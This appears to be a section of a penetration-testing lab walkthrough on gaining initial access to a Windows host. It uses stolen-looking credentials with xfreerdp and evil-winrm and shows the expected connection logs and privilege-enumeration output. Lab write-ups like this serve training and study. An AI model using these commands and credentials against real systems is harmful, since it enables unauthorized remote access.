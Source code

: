 ### Step 2.3: Gaining Initial Access

#### Method 1: RDP Access (GUI)

```bash
# Connect via RDP for graphical access
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:192.168.148.102 /u:jsmith /p:Welcome1 /cert:ignore +clipboard /dynamic-resolution
```

**Parameter Explanation**:
- `/cert:ignore`: Bypass self-signed certificate warnings
- `+clipboard`: Enable copy/paste between systems
- `/dynamic-resolution`: Adjust to your screen size

**Expected RDP Connection**:
```
[10:15:32:458] [1337:1338] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[10:15:32:458] [1337:1338] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[10:15:32:633] [1337:1338] [INFO][com.freerdp.crypto] - creating directory /home/kali/.config/freerdp
[10:15:32:633] [1337:1338] [INFO][com.freerdp.crypto] - creating directory /home/kali/.config/freerdp/certs
[10:15:32:750] [1337:1338] [INFO][com.freerdp.crypto] - created directory /home/kali/.config/freerdp/server
[10:15:33:123] [1337:1338] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_tcp_connect:freerdp_tcp_is_hostname_resolvable resolved to 192.168.148.102
[10:15:33:234] [1337:1338] [INFO][com.freerdp.core.connection] - Client Security: NLA:0 TLS:1 RDP:0
[10:15:33:234] [1337:1338] [INFO][com.freerdp.core.connection] - Server Security: NLA:0 TLS:1 RDP:1
[10:15:33:234] [1337:1338] [INFO][com.freerdp.core.connection] - Negotiated Security: NLA:0 TLS:1 RDP:0
[10:15:33:892] [1337:1338] [INFO][com.freerdp.core.connection] - ConnectionConfirm: DESKTOP-TEI5A1Q
[Desktop Session Active - User: jsmith]
```

#### Method 2: Evil-WinRM (Command Line)

```bash
# WinRM for PowerShell access
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 192.168.148.102 -u jsmith -p Welcome1
```

**Expected Output**:
```
Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jsmith\Documents> whoami
desktop-tei5a1q\jsmith

*Evil-WinRM* PS C:\Users\jsmith\Documents> hostname
DESKTOP-TEI5A1Q

*Evil-WinRM* PS C:\Users\jsmith\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
